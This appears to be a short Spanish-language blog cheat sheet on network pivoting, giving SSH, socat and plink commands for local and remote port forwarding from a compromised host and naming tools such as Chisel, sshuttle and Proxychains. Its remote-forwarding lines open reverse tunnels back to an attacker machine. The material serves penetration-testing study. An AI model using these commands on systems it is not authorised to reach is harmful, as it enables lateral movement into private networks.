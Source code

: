 ```yaml
---
layout: post
title: Pivoting - CheetSheat
tags: [CheetSheat,Linux]
description: "Pivoting - CheetSheat"
---
```



| argumento | descripción                            |
|-----------|----------------------------------------|
| -fN       | poner en 2do plano                     |
| -L        | reenvío de puerto local                |
| -i        | especificar archivo para autenticación |
| -R        | reenvío de puerto remoto               |

## Local PortForwarding

```
ssh -L <port_attack>:<ip_attack>:<target_port> <user_target>@<target_ip> -fN
socat tcp-l:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> & (en la maquina comprometida)
socat TCP-LISTEN:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> &
```

## Remote PortForwarding

```
ssh -R <port_local>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i id_rsa -fN
cmd.exe /c echo y | .\plink.exe -R <local_port>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i <KEYFILE> -N
```

## Resumen:

**SSH** se puede utilizar para crear tanto reenvíos de puerto como proxies.  
**plink.exe** es un cliente SSH para Windows, que le permite crear conexiones SSH inversas en Windows.  
**Socat** es una buena opción para redirigir conexiones y se puede utilizar para crear reenvíos de puertos de diversas formas.  
**Chisel** puede hacer exactamente lo mismo que con el reenvío/tunelización de puertos `SSH`, pero no requiere acceso SSH en la caja.  
**sshuttle** es una forma más agradable de crear un proxy cuando tenemos acceso SSH en un objetivo.  
**Proxychains y FoxyProxy** se utilizan para acceder a un proxy creado con una de las otras herramientas.  
